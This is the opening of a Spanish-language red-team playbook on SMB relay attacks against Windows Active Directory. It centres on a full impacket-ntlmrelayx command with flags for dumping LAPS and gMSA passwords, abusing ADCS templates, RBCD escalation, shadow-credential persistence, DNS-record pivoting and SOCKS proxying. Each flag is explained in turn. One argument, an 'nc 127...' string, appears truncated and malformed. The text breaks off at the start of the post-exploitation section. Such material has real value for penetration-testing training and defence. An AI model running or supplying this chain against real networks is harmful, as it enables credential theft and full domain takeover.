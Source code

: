 # 🛡️ Red Team Playbook: Ataque SMB Relay, Post-Explotación Profunda y Defensa en Entornos Windows

**By: Hiper experto Red Team | Purple Team | Threat Hunter | Blue Team | Threat Intelligence**

---

## 1️⃣ Introducción

El ataque SMB Relay con Impacket-ntlmrelayx es una de las técnicas más potentes y versátiles para escalar privilegios, establecer persistencia y pivotar en entornos Active Directory. Combinando múltiples flags avanzados (`--dump-laps`, `--dump-gmsa`, `--adcs`, `--shadow-credentials`, `--add-dns-record`, `--socks`), puedes obtener control total sobre el dominio si no está debidamente protegido.  
Esta guía cubre **TODAS** las técnicas y flags relevantes, su abuso, profundidad técnica y defensa moderna.

---

## 2️⃣ Comando Completo y Flags

```bash
impacket-ntlmrelayx.py -tf targets.txt -smb2support \
  --dump-laps \
  --dump-gmsa \
  --dump-adcs \
  --adcs \
  --escalate-user HACKER$ \
  --delegate-access \
  --shadow-credentials \
  --shadow-target objetivo$ \
  --add-dns-record \
  --socks \
  --interactive "nc 127..."
```

- `-tf targets.txt`: Lista de objetivos (SMB, LDAP, etc.).
- `-smb2support`: Soporte SMBv2 (imprescindible en Windows >=10/2016).
- `--dump-laps`, `--dump-gmsa`: Extracción automática de credenciales LAPS/gMSA.
- `--dump-adcs`, `--adcs`: Abuso de plantillas ADCS vulnerables y extracción de info.
- `--escalate-user`, `--delegate-access`: Abuso RBCD (delegación controlada).
- `--shadow-credentials`, `--shadow-target`: Persistencia sigilosa en objetos AD.
- `--add-dns-record`: Pivoting y persistencia a través de DNS.
- `--socks`: Proxy SOCKS5 para pivoting avanzado.

---

## 3️⃣ Técnicas de post-explotación: explicación hiper profunda y ejemplos

### A. **LAPS/gMSA Extraction**
#### **¿Qué ocurre?**
ntlmrelayx extrae automáticamente contraseñas de cuentas LAPS (Administrador local) y gMSA (Managed Service Accounts) tras un relay exitoso con permisos adecuados.
